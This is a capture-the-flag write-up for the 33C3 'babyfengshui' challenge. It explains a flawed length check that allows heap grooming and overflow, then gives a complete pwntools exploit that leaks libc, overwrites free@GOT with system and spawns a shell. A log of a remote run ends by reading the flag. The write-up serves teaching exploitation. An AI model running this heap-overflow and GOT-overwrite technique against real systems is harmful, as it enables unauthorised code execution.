



babyfengshui: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=cecdaee24200fe5bbd3d34b30404961ca49067c6, stripped



CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial


## Vulnerability ##

Each time a user is added, two chunks are `malloc()`'d for the user, as we can see in the function `add_user()`.

void *__cdecl add_user(size_t description_size)
{
  int v1; // ST2C_4@1
  void *description; // ST24_4@1
  void *user; // ST28_4@1
  void *result; // eax@1
  int v5; // ecx@1

  v1 = *MK_FP(__GS__, 20);
  description = malloc(description_size);
  memset(description, 0, description_size);
  user = malloc(0x80u);
  memset(user, 0, 0x80u);
  *(_DWORD *)user = description;
  *(&user_array + (unsigned __int8)num_users) = user;
  printf("name: ");
  write_chunk((char *)*(&user_array + (unsigned __int8)num_users++) + 4, 124);
  update_description(num_users - 1);
  result = user;
  v5 = *MK_FP(__GS__, 20) ^ v1;
  return result;
}


In the heap, this looks something like the following. 

**Notice that the first dword of each user's name chunk is a pointer to the user's description chunk.**

Additionally, when we update a user's description, the program checks to verify that the description's length does not cause it to overflow from the user's description chunk into the user's name chunk. 

If it does, the program outputs "my l33t defenses cannot be fooled, cya!" and exits. Otherwise, it calls `fgets()` and copies a user-specified number of bytes into the chunk's description chunk. 


int __cdecl update_description(unsigned __int8 index)
{
  char v2; // [sp+17h] [bp-11h]@3
  int v3; // [sp+18h] [bp-10h]@3
  int v4; // [sp+1Ch] [bp-Ch]@1

  v4 = *MK_FP(__GS__, 20);
  if ( index < (unsigned __int8)num_users && *(&user_array + index) )
  {
    v3 = 0;
    printf("text length: ");
    __isoc99_scanf("%u%c", &v3, &v2);
    if ( v3 + *(_DWORD *)*(&user_array + index) >= (unsigned int)((char *)*(&user_array + index) - 4) )
    {
      puts("my l33t defenses cannot be fooled, cya!");
      exit(1);
    }
    printf("text: ");
    write_chunk(*(char **)*(&user_array + index), v3 + 1);
  }
  return *MK_FP(__GS__, 20) ^ v4;
}



int __cdecl write_chunk(char *dest, int num_bytes)
{
  char *v3; // [sp+18h] [bp-10h]@1
  int v4; // [sp+1Ch] [bp-Ch]@1

  v4 = *MK_FP(__GS__, 20);
  fgets(dest, num_bytes, stdin);
  v3 = strchr(dest, 0xA);
  if ( v3 )
    *v3 = 0;
  return *MK_FP(__GS__, 20) ^ v4;
}


**This check is flawed.** 

This check only works if a user's description and name chunks are contiguous to each other in the heap.

But, what if we were able to allocate a user's chunks in a way such that a user's description and name chunks were far away from each other?

That would allow us to overwrite anything in between the user's description chunk and name chunk, including other valid heap chunks, introducing a heap overflow vulnerability.

We can actually "massage" the heap into this state by using the following flow.

1. allocate user A
	* small description (size 0)
	* normal name (size 0x80)
1. allocate user B
	* small description (size 0)
	* normal name (size 0x80)
1. free user A
1. allocate user C
	* **large description (size 0x20)**
	* normal name (size 0x80)

The reason this flow will force user C's description chunk and name chunk to be separated is because user C's description chunk is allocated first.
Once it is reallocated from user A's old description chunk, there will not be enough space left to reallocate user A's name chunk to service chunk C's name chunk request, since chunk C's description is bigger than chunk A's. 

**We can then leverage this heap overflow vulnerability to overwrite chunk B's *pointer-to-description-chunk* pointer to give us both arbitrary read and arbitrary write privileges!** 

We get an arbitrary read because we can print out a user's description and the process for that involves first dereferencing the *pointer-to-description-chunk* pointer and printing the data stored at that memory address.

Similarly, we can get an arbitrary write when we update a user's description because the process for that involves first dereferencing the *pointer-to-description-chunk* pointer and writing user controlled data to the dereferenced address.

Using the two exploit primitives, we put together the following plan.

1. massage the heap
	1. *see aforementioned flow* 
1. libc/GOT leak
	1. overwrite pointer in chunkB_name w/ __libc_start_main@GOT
	1. print chunkB to get __libc_start_main@libc
	1. calculate system@libc
1. GOT overwrite 
	1. overwrite pointer in chunkB_name w/free@GOT
	1. edit description of chunkB
	1. input system@libc
1. write "/bin/sh\0" to heap
	1. allocate another chunk w/any description size
	1. set description to "/bin/sh\0"
1. call system("/bin/sh\0") 
	1. free chunk index 3

Putting everything together, we are able to get a shell using the following exploit.

## Exploit

#!/usr/bin/env python

from pwn import *
import sys

def add(desc_size, name, text_len, text):
    r.sendline("0")
    r.recvuntil(": ")
    r.sendline(str(desc_size))
    r.recvuntil(": ")
    r.sendline(name)
    r.recvuntil(": ")
    r.sendline(str(text_len))
    r.recvuntil(": ")
    r.sendline(text)
    r.recvuntil("Action: ")

def delete(index):
    r.sendline("1")
    r.recvuntil(": ")
    r.sendline(str(index))
    r.recvuntil("Action: ")

def display(index, parse = False):
    r.sendline("2")
    r.recvuntil(": ")
    r.sendline(str(index))
    if parse == False:
        r.recvuntil("Action: ")   
    else:
        return r.recvuntil("Action: ")

def update(index, text_len, text):
    r.sendline("3")
    r.recvuntil(": ")
    r.sendline(str(index))
    r.recvuntil(": ")
    r.sendline(str(text_len))
    r.recvuntil(": ")
    r.sendline(text)
    r.recvuntil("Action: ")
    
def exploit(r):
    r.recvuntil("Action: ")
    
    ### ALLOCATE 2 CHUNKS ###
    add(0,"AAAA",11,"BBB")
    add(0,"AAAA",11,"BBB")
    
    ### DELETE CHUNK A ###
    delete(0)

    ### REALLOCATE CHUNK A ###
    user_array =  0x804b080
    payload  = "A"*152
    payload += p32(user_array+4) #user_array[1] # overwrites pointer to chunk_B's desc
    add(32,"AAAA",160,payload)    

    ### HEAP LEAK ###
    chunk_b = u32(display(1, True).split(": ")[2][:4])
    log.success("Heap chunk leaked: " + hex(chunk_b))
   
    ### CHANGE DESCRIPTION  ###
    libc_start_main =  0x804b030
    payload  = "A"*152
    payload +=  p32(libc_start_main)# user_array[1] # overwrites pointer to chunk_B's desc
    update(2, 160, payload)
    
    ### LIBC LEAK ###
    libc_start_main = u32(display(1, True).split(": ")[2][:4])
    log.success("__libc_start_main@GOT leaked: " + hex(libc_start_main))
    libc_base = libc_start_main-0x19970    
    log.success("libc base leaked: " + hex(libc_base))
    system = libc_base+0x3e3e0
    log.success("system@libc leaked: " + hex(system))
    
    ### CHANGE DESCRIPTION  ###
    free_got = 0x804b010
    payload  = "A"*152
    payload +=  p32(free_got)# user_array[1] # overwrites pointer to chunk_B's desc
    update(2, 160, payload)

    '''
    gdb-peda$ x/32xw 0x804b00c
    0x804b00c:      0x080484e6      0x080484f6      0x08048506      0x08048516
    0x804b01c:      0x08048526      0x08048536      0x08048546      0x08048556
    0x804b02c:      0x08048566      0xf7619990      0x08048586      0x08048596
    '''

    ### OVERWRITE free@GOT w/ system@libc ###
    fgets_plt=0x8048506 # bcus of trailing null byte, need to restore fgets@GOT or it will crash!
    update(1, 8, p32(system)+p32(fgets_plt)) # let null byte corrupt alarm()
    
    ### ADD CHUNK WITH "/bin/sh\0" name ###
    add(123,"/bin/sh\0",11,"/bin/sh\0")
    
    ### FREE CHUNK INDEX 3 ### 
    r.sendline("1")
    r.recvuntil(": ")
    r.sendline("3") 

    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        #r = process(['/home/rh0gue/Documents/33c3/babyfengshui'], env={"LD_PRELOAD":"./libc-2.19.so"})
        r = process(['/home/rh0gue/Documents/33c3/babyfengshui'])
        print util.proc.pidof(r)
        pause()
        exploit(r)


rh0gue@vexillum:~/Documents/33c3$ python solve.py 78.46.224.83 1456
[*] For remote: solve.py HOST PORT
[+] Opening connection to 78.46.224.83 on port 1456: Done
[+] Heap chunk leaked: 0x80f70b0
[+] __libc_start_main@GOT leaked: 0xf75fe970
[+] libc base leaked: 0xf75e5000
[+] system@libc leaked: 0xf76233e0
[*] Switching to interactive mode
$ id
uid=1000(fengshui) gid=1000(fengshui) groups=1000(fengshui)
$ ls
babyfengshui
flag.txt
$ cat flag.txt
33C3_h34p_3xp3rts_c4n_gr00m_4nd_f3ng_shu1
$  

